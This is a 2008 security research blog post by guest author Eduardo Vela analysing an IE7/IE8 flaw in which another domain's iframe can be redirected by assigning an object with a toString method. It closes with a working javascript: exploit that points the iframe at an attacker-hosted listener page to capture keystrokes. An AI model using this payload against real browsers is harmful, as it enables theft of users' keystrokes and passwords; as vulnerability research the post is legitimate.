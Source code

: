 ```yaml
---
title: Ghost Busters
author: pdp
guest: eduardo-vela
date: Thu, 15 May 2008 16:26:48 GMT
template: post.jade
---
```


> A special guest blogger for this month is Eduardo Vela, also known as sirdarckcat, a security researcher from Mexico. Eduardo has been on the field for a couple of years, mainly focusing on web-app based vulnerabilities, privilege escalation, and IDS/filter evasion. Today, he is a student of computer sciences, does some research on his free time, and works for an important website as a security engineer. These are his words:

There a few conferences that are privately held (invite-only) and their level is commonly very high. One of them is Microsoft's BlueHat conference. BlueHat is an "internal Microsoft event", but they invite a lot of security researchers from around the world. A couple of friends presented in there, and well, apparently it was really fun. Anyway, there was a specific talk that caught our attention, more specifically Manuel Caballero's "A resident in my domain". The description of his talk was really intriguing:

> Do you believe in ghosts? Imagine an invisible script that silently follows you while you surf, even after changing the URL 1,000 times and you are feeling completely safe. Now imagine that the ghost is able to see everything you do, including what you are surfing and what you are typing (passwords included), and even guess your next move.
> No downloading required, no user confirmation, no ActiveX. In other words: no strings attached. We will examine the power of a resident script and the power of a global cross-domain. Also, we will go through the steps of how to find cross-domains and resident scripts.

Apparently, Caballero found a way of capturing keystrokes and window's location. This means that he "at least" has access to modify `document.onkeydown`, and read `window.location`, but if he could modify `document.onkeydown`, that would mean he has access to execute arbitrary code on other's domains context, so that's not it.. because if that was the case, he wouldn't be able to just capture keystrokes, but to UXSS (Universal XSS) the browser.

Anyway, the two things he claims to be able to manipulate can also be manipulated from an off-domain `iframe`. So if there's some way of changing the location of an `iframe`, to any `iframe` we want, then we would be able to capture keystrokes on our own window. So, we now need a way of changing the location of an `iframe`, but first we need to get a reference to the window where the `iframe`s stay, without loosing the script run-time execution. So there are 2 main ways of getting a reference to a window:

```javascript
x=open().window
x=window.opener
```

Both require the user to open a new window and they work exactly the same way. So if you manage to make the user open a new window, then it doesn't matter where the user is navigating to, (if both windows remains open, anyway if the users close them, you can reopen&blur) you have them. So how do we do that? We need to get a reference to the `iframe`s. The ways of doing so are:

```javascript
document.getElementsByTagName("iframe") {doesnt work on cross-domain calls}
window.frames[] {works on cross-domain calls}
```

Now we just need to modify the location. This is trivial, just changing `window.opener.frames[0].location="new location"` shold work. On a recent versions of IE7 and IE8 this method doesn't work. When you try this, the browser will open a new window and by doing so, not modifying the location of the `iframe`.

After doing some tests, the location DOES gets changed when the setted location is not a string. We have hte following options:

```javascript
window.opener.frames[0].location=123;
window.opener.frames[0].location=window;
window.opener.frames[0].location=location;
```

Works fine! But why? Well, apparently IE7&8 have a protection against setting locations by off-domain scripts, and this protection is.. "if the setted location is a string, throw an Error". Not good! We have a lot of ways of making a `String` to look like an `Object`. For example.

```javascript
new String("some-string");
{toString:function(){return "some-string";}}
new function(){this.toString=function(){return "some-string";}}
```

This way, we bypass IE's protection and set our desired location without any problems. And the final exploit goes like this:

```javascript
javascript:x=open('http://hackademix.net/');setInterval(function(){try{x.frames[0].location={toString:function(){return 'http://www.sirdarckcat.net/caballero-listener.html';}}}catch(e){}},5000);void(1);
```

What caballero-listener does is just focusing itself, so it can catches `onkeydown` events.. there are a lot of ways of making the same thing in more stealth mode.
